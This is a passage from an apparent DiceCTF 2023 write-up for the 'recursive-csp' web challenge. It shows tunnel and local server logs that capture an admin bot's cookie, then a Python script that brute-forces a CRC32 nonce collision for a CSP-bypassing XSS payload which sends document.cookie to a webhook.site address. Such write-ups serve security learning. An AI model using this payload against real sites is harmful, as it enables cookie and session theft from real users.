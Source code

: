 **Verify it worked:**
```shell
Web Interface                 http://127.0.0.1:4040                                                        
Forwarding                    https://2330-{Redacted}.ap.ngrok.io -> http://localhost:8000             
                                                                                                           
Connections                   ttl     opn     rt1     rt5     p50     p90                                  
                              1       0       0.01    0.00    0.00    0.00                                 
                                                                                                           
HTTP Requests                                                                                              
-------------                                                                                              
                                                                                                           
GET /                          200 OK
```

```shell
┌[siunam♥earth]-(~/ctf/DiceCTF-2023/Web/recursive-csp)-[2023.02.08|17:59:57(HKT)]
└> python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
127.0.0.1 - - [08/Feb/2023 18:03:49] "GET /?flag=dice{h0pe_that_d1dnt_take_too_l0ng} HTTP/1.1" 200 -
```

Nice! We successfully retrieved admin bot's cookie!!

- **Flag: `dice{h0pe_that_d1dnt_take_too_l0ng}`**

**Alternatively, I modified the brute force script:**
```py
#!/usr/bin/env python3

from zlib import crc32

def main():
    for i in range(0x0, 0xffffffff + 1):
        nonceValue = crc32(bytes(i))

        payload = f'<script nonce="{nonceValue}">document.location="https://webhook.site/9e750b29-46f0-4629-a07c-adeb8a7ed641/?c="+document.cookie</script>'.encode('utf-8')
        hashedPayload = crc32(bytes(payload))

        print(f'[*] Trying nonce {nonceValue}, hashed payload {hashedPayload}', end='\r')

        if hashedPayload == nonceValue:
            print('[+] Found collided hash!')
            print(f'[+] Nonce value: {nonceValue}')
            print(f'[+] Hashed value: {hashedPayload}')
            print(f'[+] Before hashed payload: {payload.decode()}')
            exit()

if __name__ == '__main__':
    main()
```
